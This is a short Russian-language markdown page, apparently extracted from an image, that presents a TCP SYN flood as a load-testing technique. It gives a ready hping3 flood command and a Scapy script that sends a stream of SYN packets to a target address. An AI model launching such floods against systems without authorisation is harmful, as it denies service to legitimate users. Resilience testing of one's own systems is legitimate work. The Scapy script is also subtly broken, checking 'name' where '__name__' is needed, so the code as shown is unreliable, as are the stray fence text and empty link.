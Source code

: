 # TCP SYN Flood
Техника DoS-атаки, направленная на насыщение сервера ожидающими подтверждениями (SYN) соединениями. В рамках нагрузочного тестирования данной атаки, система подвергается внезапному потоку фальшивых запросов на установление TCP-соединений, что приводит к перегрузке ресурсов и отказу в обслуживании реальных клиентов. Целью тестирования является оценка устойчивости системы к таким массированным атакам и выявление возможных брешей в защите.
#### Методы реализации
Для эмуляции TCP SYN Flood можно использовать такие инструменты, как hping3 или Scapy:
```
bash
hping3 -S --flood -p PORT TARGET_IP
```

```
from scapy.all import *

target_ip = "192.168.1.1"  # Замените адресом целевой системы
num_packets = 1000  # Количество фальшивых пакетов для отправки
def syn_flood():
    for _ in range(num_packets):        
        packet = IP(dst=target_ip)/TCP(dport=80, flags="S")  # Формируем SYN пакет
        send(packet, verbose=False)

if name == "__main__":
    syn_flood()    
    print("TCP SYN Flood атака завершена")
```

При использовании hping3 или scapy вы не сможете полностью выставить шаг нагрузки(pacing), что может повлиять на результаты нагрузки. Если нет вариантов установить из-за серьезной политики безопасности, то можно реализовать через [jmeter]()

